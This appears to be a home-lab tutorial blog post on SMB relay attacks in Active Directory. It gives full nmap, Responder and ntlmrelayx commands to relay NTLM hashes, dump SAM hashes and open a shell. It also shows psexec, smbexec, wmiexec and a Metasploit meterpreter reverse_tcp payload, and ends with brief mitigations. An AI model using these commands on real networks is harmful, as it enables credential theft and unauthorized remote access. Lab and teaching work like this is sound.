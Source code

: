 ```yaml
---
title: "SMB Relay Attack "
layout: post
category: Active-Directory
tags: [SMB]
excerpt: " "
---
```


# SMB Relay Overview 

A SMB relay attack is where an attacker captures a users NTLM hash and relays its to another machine on the network. Masquerading as the user and authenticating against SMB to gain shell or file access

## **How does an SMB Relay Attack Happen?**  
The SMB Relay attack abuses the NTLM challenge-response protocol. Commonly, all SMB  sessions used the NTML protocol for encryption and authentication purposes (i.e. NTLM  over SMB) . However, most sysadmins switched to KILE over SMB after research proved that the first version of NTLM is susceptible to Man-in-the-Middle attacks, the SMB Relay attack counting among them.  
Now, in normal client-server communication, there are a series of requests followed by  responses. **The idea behind an SMB Relay attack is to position yourself between the client and the server in order to capture the data packets transmitted between the two entities.**  

## **Attack steps**  
- **Step 1** : Scanning the network. A tool like NMAP is used to scan out the network for shares and IP addresses. Alternatively, you can use Metasploit to quickly map out network shares. Kind of useless if you don’t know the target’s credentials, but still a great go-to solution.  Now, if you feel lucky, you can also use Windows’ Explorer to discover network shares. This only works only if the hosts have enabled the access-based enumeration features.  

- **Step 2** : Using Metasploit or a similar tool, to conduct the attack. Remember that the purpose of this endeavor is to capture and ‘listen’ to enough auth packets in order to trick the server into believing that the attacker is actually the user.  


- **Step 3**:  If the server’s running NTLM version 2.0, you would need to approach this   differently, and that way would be the Impacket (i.e. collection of network protocols).  

- **Step 4**: The payload’s created with msfvenom. After that, we can use Metasploit to commence the Meterpreter session. Be warned – your payload is doomed to fail if the  target machine doesn’t have administrator rights to the duped server.
  
- **Step 5**:  Once the payload’s delivered, you would have gained access to the shell. That’s it  You’re in and can do whatever you want (or not).  Instead of cracking hashes gathered with Responder, we can instead relay those hashes  to specific machines and potentially gain access  

## **Requirements**  
-  SMB signing must be disabled on the target  
-  Relayed user credentials must be admin on machine



#  SMB Relay Attack 
1. **Discovering Hosts with SMB Signing Disabled**

```bash
sudo nmap -p445,139 --script=smb2-security-mode.nse -T4 192.168.1.0/24
```

![Desktop View](/assets/img/AD_Lab/1 (67).png){: }


**add ip of disable smb to target.txt

2. **Configuring Responder**
Because we have to relay the hash instead of just capturing it responder needs to have both the SMB server turned off and HTTP turned off. Edit the responder config file in **/etc/responder/Responder.conf** and turn off SMB and HTTP and then start responder 

![Desktop View](/assets/img/AD_Lab/1 (68).png){: }

**Run responder** 

```bash 
sudo responder -I eth0 -rdw -v
```

Responder should now look like this:

![Desktop View](/assets/img/AD_Lab/1 (69).png){: }

3. **Setup the relay script**

```bash
sudo ntlmrelayx.py -tf target.txt -smb2support
```

![Desktop View](/assets/img/AD_Lab/1 (70).png){: }

4. **Capturing the hash, relaying it and dumping the local SAM file**

Request a share that does not exist using an admin account. Notice how the script checks if Remote Registry is enabled and if not, enables it, dumps the SAM and then re-disables it.

![Desktop View](/assets/img/AD_Lab/1 (71).png){: }

**We can then takes these hashes and crack them or we can even attempt a pass-the-hash attack and attempt to gain a shell with the NTLMv2 hash on a different machine on the network.**

5. Interactive Shell

```bash
sudo ntlmrelayx.py -tf target.txt -smb2support -i
```

![Desktop View](/assets/img/AD_Lab/1 (72).png){: }

- run nc for localhost and  port

```bash
nc 127.0.0.1 11001

-> help
```

![Desktop View](/assets/img/AD_Lab/1 (73).png){: }

```bash
shares # will see all file share
ls # list all file
```

![Desktop View](/assets/img/AD_Lab/1 (74).png){: }

# SMB Relay Attack Mitigation
-  Enable SMB Signing on all devices. This can be done via Group Policy
-  Disable NTLM authentication on the network. Use Kerberos instead.
-  Limit Domain Admins to specific task



# Gaining Shell Access 
** this done when you get credential (user and pass)**

## Using [impacket](https://github.com/SecureAuthCorp/impacket)
```bash
# psexec.py DC/Username:Password@DC-IP

psexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (75).png){: }

```bash
# smbexec.py DC/Username:Password@DC-IP

smbexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (76).png){: }

```bash
# wmiexec.py DC/Username:Password@DC-IP
wmiexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (77).png){: }

## using Metasploit

```bash
use exploit/windows/smb/psexec  
set rhost #dc-ip
set smbdomain #dc-name
set smbpass  # Userpass
set smbuser  # Usarname
set Lhost  # local-ip
set payload /windows/x64/meterpreter/reverse_tcp   # payload
run # run exploit
```
![Desktop View](/assets/img/AD_Lab/1 (78).png){: }

![Desktop View](/assets/img/AD_Lab/1 (79).png){: }

- now we get shell access 
![Desktop View](/assets/img/AD_Lab/1 (80).png){: }
